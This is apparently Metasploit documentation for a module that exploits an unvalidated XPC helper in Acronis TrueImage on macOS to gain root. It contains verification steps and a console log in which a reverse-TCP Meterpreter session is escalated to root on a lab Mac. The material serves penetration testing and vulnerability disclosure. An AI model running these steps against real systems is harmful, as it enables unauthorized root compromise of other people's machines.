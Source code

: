 ## Vulnerable Application

Acronis TrueImage versions 2019 update 1 through 2021 update 1
are vulnerable to privilege escalation. The `com.acronis.trueimagehelper`
helper tool does not perform any validation on connecting clients,
which gives arbitrary clients the ability to execute functions provided
by the helper tool with `root` privileges.

This module connects to the helper tool and executes the payload via
the helper tool's `executeProcess:arguments:caller:withReply:;` function,
granting a session as `root`.

### Installation Instructions

Run through the installer with all of the defaults. Once the application
is installed, open the application and allow the privileges requested.
That should be enough for the helper tool to be placed in the
`/Library/PrivilegedHelperTools` directory. You should not have to set up
a trial to get the exploit to work.

Note that the vulnerable components can stay behind even when the user
uninstalls the Acronis TrueImage application.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a meterpreter or shell session on the target
4. Do: `use exploit/osx/local/acronis_trueimage_xpc_privesc`
5. Do: `set SESSION <session_no>`
6. Do: `run`
7. You should get a new session as root.

## Options

### WRITABLE_DIR

Directory to use to write exploit files to

### SHELL

Default shell to use for exploit

### COMPILE

Determines if exploit will be compiled on the target or if a pre-compiled exploit
will be used.

## Scenarios

### Acronis TrueImage Build 22510 on macOS 12.5

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Transmitting first stager...(214 bytes)
[*] Transmitting second stager...(49152 bytes)
[*] Sending stage (810648 bytes) to 192.168.140.204
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.204:53610) at 2022-11-15 08:44:36 -0600

meterpreter > getuid
Server username: space
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           :  (macOS 12.5.0)
Architecture : x64
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/osx/local/acronis_trueimage_xpc_privesc
[*] Using configured payload osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set session 1
session => 1
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set lport 5555
lport => 5555
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set verbose true
verbose => true
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > run

[*] Started reverse TCP handler on 192.168.140.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable build 22510 found
[*] Attempting to write payload at /tmp/FHQUXzNR
[*] Writing '/tmp/FHQUXzNR' (17204 bytes) ...
[+] Successfully wrote payload at /tmp/FHQUXzNR
[*] Successfully compiled iZMwhN.m...Now executing payload
[*] Transmitting first stager...(214 bytes)
[*] Transmitting second stager...(49152 bytes)
[*] Sending stage (810648 bytes) to 192.168.140.204
[+] Deleted /tmp/FHQUXzNR
[+] Deleted /tmp/iZMwhN.m
[+] Deleted /tmp/iZMwhN
[*] Meterpreter session 2 opened (192.168.140.1:5555 -> 192.168.140.204:53763) at 2022-11-15 08:45:13 -0600

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           :  (macOS 12.5.0)
Architecture : x64
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```
